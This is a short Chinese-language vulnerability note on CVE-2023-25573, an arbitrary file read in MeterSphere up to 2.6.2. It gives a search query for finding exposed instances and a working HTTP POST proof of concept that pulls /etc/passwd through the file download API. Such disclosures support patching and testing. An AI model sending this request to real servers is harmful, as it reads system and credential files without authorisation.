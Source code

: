 # Metersphere file 任意文件读取漏洞 CVE-2023-25573

## 漏洞描述

Metersphere file 接口存在任意文件读取漏洞，攻击者通过接口可以获取敏感文件压缩包

## 漏洞影响

<a-checkbox checked>Metersphere <=2.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app.name="MeterSphere"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682156003733-4bf0790b-5111-4258-b8e5-ff8fd83cb017.png)

验证POC

```plain
POST /api/jmeter/download/files
Content-Type: application/json

{"reportId":"pass","bodyFiles":[{"id":"aaa","name":"/etc/passwd"}]}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1682155967782-ec79b940-cc14-4615-a984-b645bfc9fedd.png)